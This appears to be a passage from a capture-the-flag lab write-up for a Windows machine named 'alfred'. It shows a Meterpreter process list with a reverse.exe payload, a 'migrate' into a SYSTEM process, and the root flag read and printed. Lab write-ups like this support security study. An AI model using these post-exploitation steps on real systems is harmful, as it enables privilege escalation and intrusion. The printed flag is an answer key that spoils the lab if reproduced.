  1812  1608  java.exe             x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\
                                                                               java.exe
 1828  668   Ec2Config.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigServic
                                                                               e\Ec2Config.exe
 1924  524   conhost.exe          x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2080  524   conhost.exe          x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2284  1216  powershell.exe       x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v
                                                                               1.0\powershell.exe
 2372  772   WmiPrvSE.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
 2716  668   sppsvc.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 2776  668   svchost.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2924  668   SearchIndexer.exe    x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2948  2284  reverse.exe          x86   0        alfred\bruce                  C:\Users\bruce\Downloads\reverse.exe
 3036  668   TrustedInstaller.ex  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.e
             e                                                                 xe

meterpreter > migrate 668
[*] Migrating from 2948 to 668...
[*] Migration completed successfully.
#6 read root flag?
        #cd Windows\System32\config
        #cat root.txt
cat C:/Windows/System32/config/root.txt
        #finally!!
dff0f748678f280250f25a45b8046b4a